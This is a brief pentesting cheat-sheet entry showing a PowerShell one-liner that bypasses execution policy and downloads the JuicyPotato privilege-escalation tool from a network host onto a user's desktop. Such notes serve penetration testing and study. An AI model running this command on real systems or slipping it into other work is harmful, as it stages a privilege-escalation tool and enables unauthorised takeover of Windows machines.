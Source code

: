 # Powershell File Transfer As Cmd.exe Command
```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.1:80/winprivesc/JuicyPotato.exe','C:\Users\john\Desktop\juicy.exe')
```

# Related


Tags:

    
